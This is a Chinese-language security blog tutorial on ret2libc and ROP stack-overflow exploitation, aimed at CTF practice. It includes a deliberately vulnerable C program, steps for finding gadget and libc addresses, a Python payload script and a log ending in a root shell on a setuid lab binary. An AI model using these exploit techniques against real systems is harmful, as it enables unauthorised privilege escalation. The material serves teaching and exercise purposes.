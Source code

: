 ```yaml
---
layout: blog
book: true
title:  "简单的ROP"
background: green
background-image: http://ot1cc1u9t.bkt.clouddn.com/17-7-15/78939382.jpg
date:   2018-08-28 14:43:11
category: 安全
tags:
- ROP 
---
```


- 现代栈溢出利用技术基础:ROP
- 利用signal机制的ROP技术:SROP
- 没有binary怎么办:BROP
- 劫持栈指针:Stack Pivot
- 利用动态链接绕过ASLR:ret2dll resolve、fake linkmap
- 利用地址低12bit绕过ASLR:Partial Overwrite
- 绕过stack canary:改写指针与局部变量、leak canary、overwrite canary
- 溢出位数不够怎么办:覆盖ebp,Partial Overwrite

----

本文例子是一种代码复用技术，通过控制栈调用来劫持控制流
Google关键字:Ret2libc,ROP


## 0x01、实例

```c++
/* Compile: gcc -fno-stack-protector ret2libc.c -o ret2libc      */
/* Disable ASLR: echo 0 > /proc/sys/kernel/randomize_va_space     */

#include <stdio.h>
#include <unistd.h>

int vuln() {
    char buf[80];
    int r;
    r = read(0, buf, 400);
    printf("\nRead %d bytes. buf is %s\n", r, buf);
    puts("No shell for you :(");
    return 0;
}

int main(int argc, char *argv[]) {
    printf("Try to exec /bin/sh");
    vuln();
    return 0;
}   
```

编译后，进行下列步骤：

1.安装[gdb-peda](https://github.com/longld/peda)，然后gdb ./ret2libc->start->find "/bin/sh"，得到地址0x7ffff7b91543；

2.继续，使用p system，找到system函数的地址0x7ffff7a57590；

3.安装[ropper](https://github.com/sashs/Ropper)，然后使用ropper --file ./ret2libc --search "% ?di"，找到pop %rdi; ret;的地址0x00000000004006a3。


注意，因为我们是64位机器，默认使用的是寄存器rdi等传递参数，所以，我们需要使用rop技术，先将栈上的参数pop到寄存器rdi中，再调用system()函数。

接着，使用这三个地址，构造payload：
```python
#!/usr/bin/env python

from struct import *

buf = ""
buf += 'A'*104                          # junk
buf += pack("<Q", 0x00000000004006a3)       # pop rdi; ret;
buf += pack("<Q", 0x7ffff7b91543)       # pointer to "/bin/sh" gets popped into rdi
buf += pack("<Q", 0x7ffff7a57590)       # address of system()
#print buf
f = open("in.txt", "w")
f.write(buf)
```

执行该脚本，生成payload文件in.txt。

给./ret2libc添加权限:

```
sudo chown root ./ret2libc
sudo chmod 4755 ./ret2libc
```

执行：
```
➜  Desktop (cat in.txt ; cat) | ./ret2libc
Try to exec /bin/sh
Read 128 bytes. buf is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
No shell for you :(
whoami
root
```

成功获得root shell。

![Shell](https://raw.githubusercontent.com/catsay217994/catsay217994.github.io/master/_posts/security_image/rop.png "ROP")


## CTF中ROP常规套路:

- 第一次触发漏洞，通过ROP泄露libc的address(如puts_got),计算system地址,然后返回到一个可以重现触发漏洞的位置(如main),再次触发漏洞
通过ROP调用system("/bin/sh")
- 直接execve("/bin/sh",["/bin/sh"],NULL),通常在静态链接时比较常用

## 习题
- Defcon 2015 Qualifier:R0pbaby
- AliCTF 2016:vss
- PlaidCTF 2013:ropasaurusrex
	
## 作业:
- 根据R0pbaby的writeup重写exploit
- 尝试做vss和ropasaurusrex
	
